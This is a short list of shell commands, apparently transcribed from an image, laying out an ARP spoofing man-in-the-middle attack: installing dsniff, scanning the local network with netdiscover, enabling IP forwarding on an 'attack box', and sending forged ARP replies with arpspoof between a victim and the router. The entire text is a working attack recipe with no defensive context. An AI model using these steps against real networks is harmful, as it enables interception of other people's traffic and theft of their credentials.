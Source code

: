 Install dsniff
sudo -i
apt-get update
apt-get install dsniff

Discover endpoints on local network
sudo netdiscover

Enable port forwarding on attack box
echo 1 > /proc/sys/net/ipv4/ip_forward

Generate fake ARP replies
arpspoof -i eth0 -t <VICTIM_IP> <ROUTER_IP>
